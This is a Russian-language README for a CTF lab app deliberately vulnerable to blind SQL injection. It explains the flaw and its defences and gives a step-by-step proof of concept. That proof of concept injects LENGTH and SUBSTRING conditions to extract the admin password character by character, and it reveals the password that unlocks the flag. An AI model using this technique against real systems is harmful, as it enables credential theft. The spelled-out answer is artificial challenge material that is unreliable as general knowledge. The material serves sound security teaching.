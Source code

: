 # CTF Challenge: Blind SQL Injection Exploit
Это приложение демонстрирует уязвимость, связанную с Blind SQL Injection. Участникам CTF нужно извлечь пароль администратора из базы данных, используя слепую SQL-инъекцию, а затем войти в систему с этим паролем.
## Описание уязвимости
Уязвимость находится на эндпоинте `/api/auth_verify`, где приложение использует сырой SQL-запрос для проверки условий. Злоумышленник может использовать Blind SQL Injection для извлечения пароля администратора посимвольно.

## Почему это происходит?
- Приложение использует сырой SQL-запрос для проверки условий.
- Пользовательский ввод не экранируется, что позволяет злоумышленнику внедрить произвольный SQL-код.
- Приложение возвращает бинарный ответ (`True`/`False`), что позволяет злоумышленнику извлекать информацию посимвольно.

## Способы защиты
1. **Использование ORM** – использовать ORM (например, SQLAlchemy) для работы с базой данных, чтобы избежать написания сырых SQL-запросов.
2. **Экранирование пользовательского ввода** – всегда экранировать пользовательский ввод перед использованием в SQL-запросах.
3. **Использование prepared statements** – использовать подготовленные выражения для предотвращения SQL-инъекций.
4. **Валидация входных данных** – проверять пользовательский ввод на соответствие ожидаемым форматам и типам данных.

## Запуск приложения
### Требования:
- Docker
- Docker Compose

### Инструкция по запуску:
1. Клонируйте репозиторий:
   ```bash
   git clone git@github.com:pegasak/Blind_SQLi.git
2. Перейдите в директорию проекта:
    ```bash
   cd Blind_SQLi
3. Запустите приложение:
    ```bash
   docker-compose up --build
4. Приложение будет доступно по адресу: `http://localhost:5000`

### PoC-эксплоит для получения флага
1. Зарегистрируйтесь как обычный пользователь через `/register`
2. Зайдите в систему под своим созданным аккаунтом
3. Далее перейдите на Эндпоинт для добавления записи на страницу `/text` и попробуйте добавить пост `Add post`
4. Перейдите на домашнюю страницу `/`
5. Вы увидите, что все посты читаемы для вас кроме поста админа с ником `Kirill`
6. В правом верхнем углу нажмите на кнопку выхода из аккаунта `Log out`
7. Теперь вы неавторизованы.
8. Перейдите на эндпоинт `/api/auth_verify` и начните SQL-инъкцию, чтобы вытащить пароль админа из базы данных.
9. Эксплуатация уязвимости:
   1) Определение длины пароля. Введите в поле `Username` ник админа, а в поле `Validation Criteria:`:
      ```sql
      LENGTH(PASSWORD) = 12
   2) Если длина пароля действительно 12, то вы получите ответ `Result: True`, иначе `Result: false`.
   3) Восстановление пароля посимвольно. Теперь мы будем перебирать каждый символ, начиная с первого. Введите в поле `Username` ник админа, а в поле `Validation Criteria:`:
      ```sql
      SUBSTRING(password, 1, 1) = 'R'
      SUBSTRING(password, 2, 1) = 'o'
      SUBSTRING(password, 3, 1) = 'o'
      SUBSTRING(password, 4, 1) = 't'
      SUBSTRING(password, 5, 1) = '2'
      SUBSTRING(password, 6, 1) = '2'
      SUBSTRING(password, 7, 1) = '3'
      SUBSTRING(password, 8, 1) = '3'
      SUBSTRING(password, 9, 1) = '@'
      SUBSTRING(password, 10, 1) = 'l'
      SUBSTRING(password, 11, 1) = 'k'
      SUBSTRING(password, 12, 1) = 'a'
   4) После перебора всех символов получаем полный пароль админа.
10. Переходим на `login`.
11. Вводим `Kirill` и найденный пароль.
12. После входа видим флаг на домашней странице в после админа.